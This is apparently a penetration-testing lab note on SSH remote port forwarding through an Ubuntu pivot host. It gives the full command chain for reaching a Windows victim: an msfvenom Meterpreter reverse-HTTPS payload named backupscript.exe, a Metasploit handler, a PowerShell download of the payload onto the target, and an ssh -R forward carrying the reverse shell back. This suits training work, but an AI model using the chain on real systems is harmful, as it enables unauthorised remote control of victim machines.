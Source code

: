 
# Remote/Reverse Port Forwarding with SSH

Scenario: A victim Windows server sits behind an Ubuntu pivot host, 10.129.15.50 and 172.16.5.129. Your attack host, 10.10.15.5 uses the Ubuntu machine to pivot to the Windows server.
The Window host has a limited outgoing connection to 172.16.5.0/23 because the Windows server does not have any direct connection with the attack host network. The attack host can gain
access via the Ubuntu server, using it as the pivot point, since it can connect to both the attack host and windows server. To gain a reverse shell on the Windows server you can:

1) Create a Meterpreter HTTPS payload via msfvenom using the Ubuntu server's IP address
2) Use port 8080 on the Ubuntu server to forward all reverse packets to your attackers host on port 8000, where the Metasploit listener is running

### Creating Windows Payload
```python
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Configure + Starting the multi/handler
```python
msf6 > use exploit/multi/handler
```

### Transferring Payload to Pivot Host
```python
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

### Starting Python3 Webserver on Pivot Host
```python
python3 -m http.server 8123
```

### Downloading Payload on Windows Target
```PowerShell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### SSH Remote Port Forwarding
```python
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

>[!tip]
> -vN tells SSH to use verbose mode and not prompt for the login shell
> -R asks the Ubuntu server to listen on targetIPAddress:8080 and forward
> all incoming connections on port 8080 to your msfconsole listener on 0.0.0.0:8000

